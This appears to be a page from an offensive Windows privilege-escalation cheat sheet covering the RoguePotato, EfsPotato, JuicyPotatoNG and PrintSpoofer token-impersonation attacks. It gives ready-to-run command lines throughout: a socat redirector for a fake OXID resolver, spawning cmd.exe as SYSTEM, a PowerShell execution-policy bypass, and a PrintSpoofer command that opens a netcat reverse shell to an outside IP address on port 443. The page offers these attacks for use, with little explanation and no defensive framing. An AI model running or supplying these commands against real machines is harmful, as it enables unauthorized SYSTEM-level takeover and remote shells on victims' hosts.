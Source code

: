 
### Rogue Potato (Fake OXID Resolver)

- Binary available at [antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

```
# Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999

# RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. 
# Use this if you have fw restrictions.
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"

# RoguePotato all in one with RogueOxidResolver running locally on port 9999
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999

#RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

### EFSPotato (MS-EFSR EfsRpcOpenFileRaw)

- Binary available at https://github.com/zcgonvh/EfsPotato

```
# .NET 4.x
csc EfsPotato.cs
csc /platform:x86 EfsPotato.cs

# .NET 2.0/3.5
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs
C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs
```

### JuicyPotatoNG

- [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```

### PrintSpoofer (Printer Bug)

> this work if SeImpersonatePrivilege is enabled

- Binary available at https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

```
# run nc -lnvp 443 then :
.\PrintSpoofer64.exe -c "C:\Temp\nc64.exe 192.168.45.171 443 -e cmd"
# without listener
.\PrintSpoofer64.exe -i -c cmd
# Via RPD
.\PrintSpoofer64.exe -d 3 -c "powershell -ep bypass"
```

